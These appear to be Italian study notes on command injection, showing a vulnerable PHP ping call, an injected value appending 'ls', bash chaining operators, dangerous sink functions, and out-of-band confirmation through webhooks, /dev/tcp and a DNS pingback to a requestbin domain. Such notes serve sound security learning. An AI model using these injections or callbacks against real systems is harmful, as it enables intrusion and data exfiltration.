 
# Command and code injections

## Command injections

Esecuzione di un comando malevolo che rischia di compromettere la confidenzialità, integrità e disponibilità di alcune risorse.

es. system("ping " . $\_GET["host"]);
Se all'interno di $\_GET["host"] è presente la seguente stringa "192.168.10.12;ls" verrà eseguito il ping e subito dopo (indipendentemente dall'esito) anche il comando ls.

Altri comandi che consentono la command injection in bash sono:

- ";" esecuzione di più comandi
- "\n" nuova linea
- "&&" esegue comando successivo solo se il comando precedente ha avuto successo
- "||" esegue comando successivo solo se quello precedente ha fallito
- `` o $() inserisce l'esito di un comando in una stringa

In un ambiente whitebox è molto più semplice trovare le vulenrabilità grazie agli output.
Quindi possiamo trovare i "sink" punti di codice in cui un utente usa determinate funzioni in modo pericoloso.
Esempi:

- sxec()
- system()
- popen()
- eval()
- backtics(``)

Un altro modo è quello di usare un pingback quindi utilizzare una connessione di ritorno verso un host controllato da un attaccante.
Un esempio è utilizzando un link generato da webhook sul quale noi manderemo le richieste attraverso le post, vedendo così i risultati.

Si possono anche aprire connessioni sulla macchina stessa attraverso comandi simili al seguente:
echo "Hello world" > /dev/tcp/localhost/1337
in questo caso stiamo inviando "hello world" alla porta 1337 del nostro localhost

DNS pingback è un altro metodo, il suo potere è quello di bypassare i firewall.
Creiamo un dns bin un dominio che registra tutte le richieste dns ricevute.
Se ad esempio inseriamo uno url e alla fine eseguiamo un comando nslookup del nostro dominio riceveremo quindi un riscontro se effettivamente il comando è stato eseguito dalla macchina, trovando così la vulnerabilità.
Requestbin ti fornirà un DNS name come il seguente:
_.sadjkandklmasdnjasndalskdna.d.requestbin.net
se al psoto del simbolo "_" insersici un test ecco che se riceverai la conferma sul tuo dns dell'interrogazione significa che il comando è stato eseguito quindi se concateni due comandi come ls&&nslookup test.sadjkandklmasdnjasndalskdna.d.requestbin.net
saprai se avrai eseguito il comando ls.

Se devi eseguire delle command injections blind, allora esegui ridirezioni dell'output di comandi su file o inviale a un server in tuo possesso (webhook).
